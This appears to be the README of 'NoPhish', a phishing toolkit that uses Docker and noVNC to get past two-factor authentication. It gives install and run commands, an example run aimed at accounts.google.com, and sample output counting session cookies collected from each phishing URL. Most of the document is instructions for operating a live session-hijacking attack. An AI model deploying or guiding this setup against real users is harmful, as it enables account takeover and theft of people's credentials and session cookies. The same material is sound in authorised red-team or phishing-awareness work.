 # NoPhish
 
Another phishing toolkit which provides an docker and noVNC based infrastructure. The whole setup is based on the initial article of [mrd0x](https://mrd0x.com/bypass-2fa-using-novnc/) and [fhlipzero](https://fhlipzero.io/blogs/6_noVNC/noVNC.html).

A detailed description of the setup can be found here - [Another phishing tool](https://powerseb.github.io/posts/Another-phishing-tool/)

## Installation

Install the required python modules:

```console
pip install lz4
```

Install the setup (which will create the required docker images):

```console
setup.sh install
```

## Execution

The setup offers the following parameters:

```console
Usage: ./setup.sh -u No. Users -d Domain -t Target
         -u Number of users - please note for every user a container is spawned so don't go crazy
         -d Domain which is used for phishing
         -t Target website which should be displayed for the user
         -e Export format
         -s true / false if ssl is required - if ssl is set crt and key file are needed
         -c Full path to the crt file of the ssl certificate
         -k Full path to the key file of the ssl certificate
         -a Adjust default user agent string
```

A basic run looks like the following:

```console
./setup.sh -u 4 -t https://accounts.google.com -d hello.local 
```

During the run the following overview provides a status per URL how many cookies or session informations have been gathered.

```console
...
[-] Starting Loop to collect sessions and cookies from containers
    Every 60 Seconds Cookies and Sessions are exported - Press [CTRL+C] to stop..
For the url http://hello.local/c18d058717000d3012ac5f492c11 :
-  0  cookies have been collected.
-  5  session cookies have been collected.
For the url http://hello.local/b083a984e423ef0215a541337692 :
-  0  cookies have been collected.
-  5  session cookies have been collected.
For the url http://hello.local/0b61f4b831dfe15b811c6b880351 :
-  0  cookies have been collected.
-  5  session cookies have been collected.
For the url http://hello.local/28e09fec384967e8c4c05b80e1eb :
-  0  cookies have been collected.
-  5  session cookies have been collected.
```

Please note that the tool will export all cookies / session information even when it is not related to a successfull login.


## CleanUp

During a run the script can be terminated with `ctrl` + `c` - all running docker container will then be deleted. To fully remove the setup run `setup.sh cleanup`.
